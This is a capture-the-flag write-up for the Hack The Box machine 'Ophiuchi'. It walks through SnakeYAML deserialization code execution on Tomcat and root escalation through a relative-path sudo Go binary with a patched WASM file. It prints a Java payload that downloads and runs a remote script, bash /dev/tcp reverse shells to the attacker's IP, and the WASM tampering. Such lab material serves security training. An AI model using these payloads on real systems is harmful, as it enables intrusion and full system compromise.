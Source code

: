 # Hackthebox - Ophiuchi

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.125
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 8080 which is HTTP is open, so I open the webpage and got this.
![](Ophiuchi/webpage.png)

Next I started a gobuster to find directories.
![](Ophiuchi/gobuster.png)

I try clicking around the website and see that it is a YAML parser. I try putting in some stuff but always got a message saying the feature is disabled.                              
![](disabled.png)

I started searching about "YAML deserilization exploit" and got an article (https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858). I just try running the exploit blindly just to see if it works.
![](payload.png)

I setup a listener and got a hit back from the box.
![](curledhit.png)

So now I know the exploit works, but I still doesn't have command execution. The article aboves dives in more to how we can do a remote command execution through this exploit. We basically provide a java class file which contains our command. I want to test the exploit first so I do a simple curl command to my machine. Below is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("curl 10.10.14.66:8888");
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

I convert the java file to a class file.
![](convertjavaclass.png)

Setup a python server to host my class file.
![](python3server.png)

Send the YAML payload to the web server.                                                                                      
![](payload2.png)

I got a curl back from the box to my machine.
![](curled2.png)

So its confirmed that the command execution works. Now I created a reverse shell bash script and download it to the box and execute it with bash. Here is the snippet of the code.
```java
public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("curl 10.10.14.66:8000/rev.sh -o /tmp/rev.sh");
			Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

I created the **rev.sh** bash script.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.66/7777 0>&1
```

Setup a listener, send the payload and got a shell as the tomcat user.
![](tomcatshell.png)

Next I try looking through the conf directory in tomcat's home directory and got a credentials for the user admin.
![](adminpass.png)

I try SSH to the box as admin with that password and got in.
![](userflag.png)

I try running **sudo -l** and the user admin can execute a file written in go.
![](sudo-l.png)

I look at the contents of the file and try to analyse what it does.
```bash
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)

func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Its calling **deploy.sh** and **main.wasm** but isn't using it's absolutr path. Which means I can make the script call my files instead.

I go to **/dev/shm** and created **deploy.sh** file.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
```
The file will only execute the **deploy.sh** file if variavle f is 1. The variable f is taken from **main.wasm**, which is a web assembly file. I search around for how to work with a wasm file and found a tool (https://github.com/webassembly/wabt). The wasm file can be converted to web assembly text format which is more human readable.

So I send the **main.wasm** file to my box.
![](ncsendwasm.png)

Convert it into wat format.
![](convertwat.png)

Now I can see the contents.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

There is a function called info which is pulled by the **index.go** file. So I can just make the info function returns 1. So I edit the file with nano.
```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

I converted the wat file back to wasm format.
![](wattowasm.png)

curl the new wasm file
![](ls-la.png)

Execute the full sudo command.
![](runsudo.png)

And I got a shell as root.
![](rooted.png)
